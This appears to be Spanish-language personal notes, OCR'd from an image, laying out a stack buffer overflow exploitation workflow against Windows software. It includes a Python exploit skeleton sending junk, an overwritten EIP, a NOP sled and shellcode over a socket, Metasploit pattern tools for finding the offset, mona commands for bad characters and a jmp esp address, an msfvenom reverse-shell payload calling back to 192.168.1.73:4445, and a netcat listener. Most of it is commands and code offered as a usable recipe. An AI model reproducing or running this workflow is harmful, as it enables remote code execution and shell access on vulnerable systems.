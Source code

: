 **averiguar offset**
lanzar "A"\*200
python \-c "print "A"\*100" \|nc ip puerto

<br>
<br>
***

**\- Esqueleto bof**

#!/usr/bin/python
import socket
import sys
from struct import pack

\#\# basura = "A"\*1052 /identifacion de offset
\#\# EIP = pack\("<I"\,0x68A98A7B\) //little endian //aca primerose pone el "B"\*4
\#\# shellcode = //se usa para crear el payload con mfsvenom
\#\# NOPS = "\\x90"\*15 //esto se usa para dar espacio al shellcode para desempaquetar
\#\# Payload = basura \+ EIP \+ NOPS \+ shellcode
s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
s.connect(('localhost', 8888))
s.sendall((Payload))
#data = s.recv(8096)
s.close()
print 'Paylad enviado!', repr(data)

***

<br>
<br>
<br>
**\- conociendo el volcado\, se hace offset con patter**
usr/share/metasploit-framework/tools/exploit/pattern\_create.rb 5000 // se pone en basura, se saca el eip y se busca con patter\_offset
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -q 316A4230 // con esto ya se identifica el offset y queda la basura "316A4230 es el EIP"
\- se pasa el EIP "B"\*4 y despues se pasa el ESP de arriba "C"\*100 <\- esto se convierte en el badchar/shellcode bytearay

<br>
**\- eliminar los badchars/shellcode\, usar mona**
!mona config -set workingfolder path\\%p
!mona bytearray
!mona compare -f path\\bytearray.bin -a ESP\_arriba
!mona bytearray -cbp "\\x00" \<se debe colocar todos los que salgan en el compare>

<br>
**\- generar shellcode**
msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.1.73 LPORT=4445 -a x86 --platform windows EXITFUNC=thread -b "\\x00" -f c

<br>
!mona modules >>>> aca se debe escoger una libreria que tenga todo false, importante el ASLR (proteccion de memeoria desahbiltado)

<br>
\-\-\-\-\- "\\xFF\\xE4" = 32bits

<br>
!mona find -s "\\xFF\\xE4" -m modulo identificado "\*\*\*\*.dll" << cuando se encuentra se escoge uno de los que estan y se da doble clic, sebe mandar a un jmp esp>>
se seleccionar la direccion de ese jmp esp y se cambia en el EIP del codigo "B"\*4, se debe hacer el little endian

<br>
EIP = pack("<I",0xaabbccddee)

<br>
<br>
\-\-\-\-agregar nops = "\\x90"\*15

<br>
Payload = basura + EIP + NOPS + shellcode

<br>
**\- abrir nc con el puerto especificado nc \-lnvp 4445**
./payload